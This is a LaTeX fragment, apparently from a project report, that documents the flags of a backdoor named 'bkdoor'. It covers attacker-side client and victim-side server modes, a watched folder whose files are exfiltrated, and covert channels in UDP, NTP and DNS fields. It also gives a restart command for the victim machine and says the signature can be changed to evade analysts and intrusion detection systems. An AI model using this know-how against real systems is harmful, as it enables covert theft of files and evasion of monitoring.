 \documentclass[titlepage]{article}
\begin{document}
\clearpage

\subsection{Flags}
The available command-line flags are:\\
\\
\begin{tabularx}{\textwidth}{lX}
-c & Use this option to activate Client mode. This should be used on the attacker's machine.\\
\\
-s & Use this option to activate Server mode. This should be used on the victim machine.\\
\\
-h & Use this option to see a short version of the program usage instructions.\\
\\
-i \textless arg\textgreater & Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.\\
\\
-w \textless arg\textgreater & Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.\\
\\
-x \textless arg\textgreater & Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.\\
\end{tabularx}
\\
\\
If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill \textless process id\textgreater ; ./bkdoor -s -w \textless path\textgreater  -i \textless ip\textgreater ... other options'.

\clearpage

\section{Testing Design}

The majority of the testing will be carried out from the server (victim) side as this is where the majority of the monitoring would be done.
The signature for our rootkit is currently ``0xAB" with the data encrypted in the next byte.  The signature can be changed by modifying a header at compile time, to make it harder for analysts and IDSes to detect.
\\
\end{document}
